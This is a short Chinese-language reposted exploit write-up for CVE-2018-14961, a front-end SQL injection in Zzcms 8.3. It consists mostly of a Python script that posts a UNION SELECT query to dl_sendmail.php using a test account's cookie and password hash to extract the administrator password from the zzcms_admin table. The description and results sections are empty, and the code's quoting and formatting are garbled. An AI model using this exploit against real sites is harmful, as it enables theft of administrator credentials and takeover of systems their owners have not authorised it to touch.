

# （CVE-2018-14961）Zzcms 8.3 前台sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3314](https://www.zhihuifly.com/t/topic/3314)

# （CVE-2018-14961）Zzcms 8.3 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

Zzcms 8.3

## 三、复现过程

```
#!/usr/bin/env python
#Author:Sublime
#coding:utf-8
import requests as req

url = “[http://0-sec.org:8080/dl/dl_sendmail.php](http://0-sec.org:8080/dl/dl_sendmail.php)”

cookies = {‘UserName’:‘test’,‘PassWord’:‘81dc9bdb52d04dc20036dbd8313ed055’}

data = { ‘sql’:‘select email from zzcms_dl where id=-1 union select pass from zzcms_admin #’} `q = req.post(url,data,cookies=cookies,allow_redirects=False)

print q.status_code

print q.content` 
```

测试结果为：



## 参考链接

> https://www.anquanke.com/post/id/156660